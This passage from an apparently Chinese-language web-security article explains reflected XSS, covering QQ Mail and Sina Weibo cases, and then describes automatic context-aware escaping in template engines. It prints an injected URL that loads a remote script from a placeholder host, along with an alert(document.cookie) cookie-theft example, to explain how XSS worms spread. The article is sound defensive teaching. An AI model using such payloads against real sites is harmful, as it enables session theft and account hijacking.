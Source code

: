 浏览器接收到响应后就会执行 `alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

#### 新浪微博名人堂反射型 XSS 漏洞

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

```html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```

浏览器接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为 “XSS 蠕虫”。

扩展阅读：Automatic Context-Aware Escaping
-------------------------------------

上文我们说到：

1.  合适的 HTML 转义可以有效避免 XSS 漏洞。
2.  完善的转义库需要针对上下文制定多种规则，例如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等等。
3.  业务 RD 需要根据每个插入点所处的上下文，选取不同的转义规则。

通常，转义库是不能判断插入点上下文的（Not Context-Aware），实施转义规则的责任就落到了业务 RD 身上，需要每个业务 RD 都充分理解 XSS 的各种情况，并且需要保证每一个插入点使用了正确的转义规则。

这种机制工作量大，全靠人工保证，很容易造成 XSS 漏洞，安全人员也很难发现隐患。

2009 年，Google 提出了一个概念叫做：[Automatic Context-Aware Escaping](https://link.juejin.cn?target=https%3A%2F%2Fsecurity.googleblog.com%2F2009%2F03%2Freducing-xss-by-way-of-automatic.html "https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html")。

所谓 Context-Aware，就是说模板引擎在解析模板字符串的时候，就解析模板语法，分析出每个插入点所处的上下文，据此自动选用不同的转义规则。这样就减轻了业务 RD 的工作负担，也减少了人为带来的疏漏。

在一个支持 Automatic Context-Aware Escaping 的模板引擎里，业务 RD 可以这样定义模板，而无需手动实施转义规则：

```html
<html>
  <head>
    <meta charset="UTF-8">
    <title>{{.title}}</title>
  </head>
  <body>
    <a href="{{.url}}">{{.content}}</a>
  </body>
</html>
```

模板引擎经过解析后，得知三个插入点所处的上下文，自动选用相应的转义规则：

```html
<html>
  <head>
    <meta charset="UTF-8">
    <title>{{.title | htmlescaper}}</title>
  </head>
  <body>
    <a href="{{.url | urlescaper | attrescaper}}">{{.content | htmlescaper}}</a>
  </body>
</html>
```
